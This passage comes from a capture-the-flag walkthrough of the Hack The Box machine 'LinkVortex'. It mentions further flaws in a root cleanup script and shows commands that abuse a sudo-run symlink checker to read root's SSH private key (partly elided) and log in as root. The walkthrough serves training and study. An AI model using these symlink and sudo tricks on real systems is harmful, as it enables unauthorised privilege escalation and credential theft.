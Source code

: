 Note that this has atleast two other vulnerabilies:
- The `CHECK_CONTENT` can be set to a binary, since the script does not enforce it to be when evaluating it, whic could lead us to run a script as root!
- There a Race Condition vulnerability in the conditional branch on `$LINK_TARGET`

I recommend seeing Ippsecs video or read 0xdf write-up (I did not look further for these when solving the box while it was active. But read after its retirement :) )

## Getting root shell

Sometimes I like to see if I can actually get a shell, and not just the flag. I find it kind of gimmicky too CTF-like if we cannot get a real shell on `root`. File disclosure does not always equal account 

However, the root user has a private SSH key, that we can read the same way as before.

```bash
bob@linkvortex:~$ ln -fs /root/.ssh/id_rsa link
bob@linkvortex:~$ ln -fs /home/bob/link cute_puppy.png
bob@linkvortex:~$ CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh cute_puppy.png
Link found [ cute_puppy.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    ....................................................
    ....................................................
    ....................................................
ICLgLxRR4sAx0AAAAPcm9vdEBsaW5rdm9ydGV4AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

Then i just paste the private key into my kali host machine

```bash
┌──(kali㉿kali)-[~/htb/boxes/linkvortex/ssh]
└─$ vim id_rsa                                                                                      
```

Remember to give it the right permissions, otherwise it will fail like:
```bash
┌──(kali㉿kali)-[~/htb/boxes/linkvortex/ssh]
└─$ ssh -i id_rsa root@linkvortex.htb 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0664 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
....
```
So just:
```bash
┌──(kali㉿kali)-[~/htb/boxes/linkvortex/ssh]
└─$ chmod 700 id_rsa   
```
And we're in!
```bash
┌──(kali㉿kali)-[~/htb/boxes/linkvortex/ssh]
└─$ ssh -i id_rsa root@linkvortex.htb 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
```